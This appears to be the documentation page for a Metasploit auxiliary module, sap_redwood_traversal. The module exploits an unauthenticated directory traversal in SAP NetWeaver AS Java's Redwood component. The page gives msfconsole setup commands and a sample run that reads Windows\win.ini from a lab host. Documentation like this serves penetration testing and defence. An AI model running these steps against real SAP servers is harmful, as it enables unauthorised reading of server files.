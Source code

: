 # Description
This is a module for exploitation an anon directory traversal vulnerability in SAP NetWeaver Application Server Java in Redwood module. The vulnerability was active exploited from Chines hackers in the wild in 2017.


# Verification Steps
```
Start msfconsole
use auxiliary/scanner/sap/sap_redwood_traversal
set RHOSTS [IP]
set FILEPATH [file_on_remote_server]
set DEPTH [number]
run
```

## Scenarios
Tested on Windows 2008 with SAP NetWeaver AS Java 7.52
```
msf5 > use auxiliary/scanner/sap/sap_redwood_traversal 
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set rhosts 192.168.2.164
rhosts => 192.168.2.164
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set DEPTH 25
DEPTH => 25
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > set FILEPATH Windows\win.ini
FILEPATH => Windows\win.ini
msf5 auxiliary(scanner/sap/sap_redwood_traversal) > run

[+] 192.168.2.164:50000 - ; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

[+] File saved in: [local_path_in_your_machine]
```
